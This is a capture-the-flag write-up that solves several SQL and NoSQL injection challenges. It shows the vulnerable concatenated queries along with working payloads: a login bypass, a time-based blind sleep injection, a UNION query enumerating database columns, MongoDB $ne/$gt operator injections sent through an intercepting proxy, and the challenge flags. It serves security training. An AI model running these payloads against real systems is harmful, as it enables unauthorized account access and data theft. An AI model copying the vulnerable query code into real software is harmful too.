 # SQLi Challenges
As you all must've noticed, there were two separate databases being used and hence the challenges were hosted across two websites. One of the DBs used was MySQL and the other was MongoDB. 

## MySQL challenges

### Challenge 1 - Try to login
+ This was the SQL query:
``` $q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')";```
+ Hence the solution will be of the form:
``` blah') OR 1=1 -- // ```
When this is entered in the "username" field, the rest of the query gets commented and you can login as the admin user. 

### Challenge 2 - Take things slow 
+ Here you were expected to conduct a time-based blind SQLi. Essentially, you had to delay the response of the website by 10 seconds. It was also mentioned that you need to conduct this attack on the "Profile Details page"
+ Note: Blind SQLi means the application is vulnerable to SQL injections, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
+ The SQL query was this:
``` $q = "Select * from users where username = '".$user."'";```
+ The solution is as follows:
``` ?user=admin' and if(1=1, sleep(10), null) -- //```
![](images/1.png)

### Challenge 3 - Find Tom Riddle! 
+ Question: Get access to Tom Riddle's account: A wizard who's first name is tom, goes by the username voldemort.
+ Hints to be picked up - "first name" is tom, "username" is voldemort
+ "first name" and "username" are probably names of columns in the database
+ Confirm this by conducting an SQLi to find column names in the "Search Products" page as follows
``` ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // ```
![](images/2.png)
+ "first name" is actually "fname" and "username" is "username" itself
+ The twist here was, there are two users with the username "voldemort". But only of of them had fname "tom". So you have to write a query that takes care of both these conditions. Add this to the URL:
``` ?user=voldemort' and fname = 'tom'-- //```
![](images/3.png)


## NoSQL challenges

### Challenge 1 - - User Lookup  
+ Solution: ```"' || '2'=='2"``` (without double quotes)
+ Flag: ctf{c0ngr8$}

### Challenge 2 - User Login  
1. Direct payload wont work, need to install a proxy (I used burp suite)
2. Need to change browser proxy settings in browser (I used FoxyProxy extension for Firefox)- set proxy IP to 127.0.0.1, port to 8080
3. Login using any credentials
4. Intercept the request and change the payload to: ```{"username":"admin","password":{"$ne": 1}}```
+ Flag: ctf{l0L+sO+r@nd0m}
+ The query in the code was:
``` python
let uname = req.body.username;
	let pass = req.body.password;
	console.log("Login request " + req.body);
	let query = { 
		username: uname,
		password: pass 
	}
```

### Challenge 3 - User Login
Follow steps 1-3 from above  
+ Intercept the request and change the payload to: ```{"username":{"$gt": ""},"password":{"$ne": 1}}```
+ Flag: ctf{y0uve_ch@ng3d}
